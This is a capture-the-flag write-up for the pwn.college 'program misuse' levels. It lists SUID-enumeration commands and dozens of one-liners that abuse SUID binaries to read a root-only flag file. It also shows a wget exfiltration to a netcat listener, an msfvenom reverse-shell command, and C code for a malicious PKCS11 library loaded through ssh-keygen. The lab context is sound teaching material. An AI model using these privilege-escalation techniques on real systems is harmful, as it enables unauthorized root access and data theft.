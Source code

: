 
Find a program with SUID bit permission
```bash
$ find / -user root -perm -4000 -print 2>/dev/null 
$ find / -perm -u=s -type f 2>/dev/null 
$ find / -user root -perm -4000 -exec ls -ldb {} \;
```

Program candidates with privilege escalation sample for read only `/flag` permission for root user
```bash
$ env -S cat /flag
$ genisoimage -sort /flag
$ ar -q fake.ar /flag;cat fake.ar
$ echo "/flag" | cpio -o
$ find /flag -exec cat {} \;
$ setarch x86_64 cat /flag
$ whiptail --textbox /flag 10 60
$ tar -cvf fake.tar /flag;tar xf fake.tar -O
$ tar cvf /flag -I; cat flag.tar
$ tar xf /flag -I '/bin/sh -c "cat 1>&2"'
$ socat - /flag
$ cp /flag /dev/stdout
$ mv /usr/bin/cat /usr/bin/mv; mv /flag
$ perl -ne print /flag
$ python -c 'print(open("/flag").read())'
$ bash -p
$ date -f /flag
$ gcc -E -x c /flag
$ bzip2 /flag; bzip2 -dc /flag.bz2
$ unzip -p flag.zip flag | less
$ find . -exec cat /flag {} \;
$ nice cat /flag
$ timeout 1 cat /flag
$ stdbuf -o 0 cat /flag
$ watch -x cat /flag
$ awk 'BEGIN{ while(( getline line<"/flag") > 0 ) { print line } }'
$ sed p /flag
$ dmesg -F /flag
$ wc --files0-from=/flag
$ as /flag
```

`ed`
```bash
$ ed /flag
> p
```

`wget`
```bash
$ nc -lvnp 4554 # terminal session 1
$ wget --post-file=/flag http://127.0.0.1:4554 # terminal session 2
```

`make`
Create a Makefile with the content:
```make
FLAG := $(shell cat /flag) 
ok: 
	echo $(FLAG)
```

```bash
$ make -f Makefile
```

`ruby`
Create a ruby script with the content:
```ruby
readData = File.read("/flag") 
puts readData
```

```bash
$ ruby script.rb
```

`ssh-keygen` ? yes with `-D` parameter to load dynamic shared library

```bash
$ ssh-keygen -D ourlib2shell.so #write ORW dynamic shared library to read the flag
```

My first attempt was to generate a dynamic shared library from `msfvenom`
```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=5100 -f elf-so -o lib2shell.so
```
and run `netcat` to terminal session 2.

```
./lib2shell.so does not contain expected string C_GetFunctionList
provider ./lib2shell.so is not a PKCS11 library
cannot read public key from pkcs11
```

The exploit won't work because `ssh-keygen -D ` expects pkcs11 library (maybe this will work in older version of `ssh`?) and `lib2shell.so` does not really implements pkcs11 interface.

Second attempt, going through [Sean Pesce's Research Blog](https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html)  that applies patches, also `hello.so` won't work so we need to write our own ORW that implements pkcs11 as our third attempt.

Third attempt, I found [jariq's pkcs11 projects](https://stackoverflow.com/a/65446632) , EMPTY-PKCS11 doesn't have `C_GetFunctionList` so I chose his minimal [PCKS11-MOCK](https://github.com/Pkcs11Interop/pkcs11-mock) and modified it to read the `/flag` or we can spawn a root shell.  To make this work modify the `C_Initialize` interface implementation with
```c
...
#include <stdio.h>
#include <unistd.h>
// #define SHELL_COMMAND "/bin/sh"
...

CK_DEFINE_FUNCTION(CK_RV, C_Initialize)(CK_VOID_PTR pInitArgs)
{
    puts("[pkcs11-mock by relro for pwn.college level 51 HARDDDDDDD]");
    printf("Reading the flag");
    // Read the /flag file
    char flag[500];
    FILE *fp;

    fp = fopen("/flag", "r");
    if (fp == NULL) {
        printf("Could not open file /flag");
        return 1;
    }
    fgets(flag, 500, fp);
    printf("Flag: %s\n", flag);

    // long long err = execl(SHELL_COMMAND, "/bin/sh", "-c", SHELL_COMMAND, NULL);
    // printf("Result: %lld\n", err);

    if (CK_TRUE == pkcs11_mock_initialized)
        return CKR_CRYPTOKI_ALREADY_INITIALIZED;
    IGNORE(pInitArgs);
    pkcs11_mock_initialized = CK_TRUE;
    return CKR_OK;
}
```

Then run `build/linux/build.sh` to build our `pkcs11-mock.so` and transfer it to our ssh target remote connection with `scp`.
```bash
$ scp -i key -r pkcs11-mock-x64.so hacker@dojo.pwn.college:/home/hacker/
```

Run the the exploit to the target machine with 
```
hacker@program-misuse-level-51:~$ ssh-keygen -D ./pkcs11-mock-x64.so 
[pkcs11-mock by relro for pwn.college level 51 HARDDDDDDD]
Reading the flag
Flag: pwn.college{you_need_to_perform_this_okay?}

C_GetAttributeValue failed: 18
Enter PIN for 'Pkcs11Interop': 
```

It works, this will work also in your current linux machine with ssh-keygen. You better check your program's permissions and nuke them if needed so.

# References
https://pwn.college/fundamentals/program-misuse
[https://hurricane618.me/2022/05/26/pwn-college-writeup-one/](https://hurricane618.me/2022/05/26/pwn-college-writeup-one/ "https://hurricane618.me/2022/05/26/pwn-college-writeup-one/")
[https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html](https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html "https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html")
https://github.com/Pkcs11Interop/pkcs11-mock
[https://medium.com/@D00MFist/generate-keys-or-generate-dylib-loads-c99ed48f323d](https://medium.com/@D00MFist/generate-keys-or-generate-dylib-loads-c99ed48f323d "https://medium.com/@D00MFist/generate-keys-or-generate-dylib-loads-c99ed48f323d")
https://stackoverflow.com/questions/65444761/how-to-go-about-writing-a-pkcs11-wrapper-around-my-device
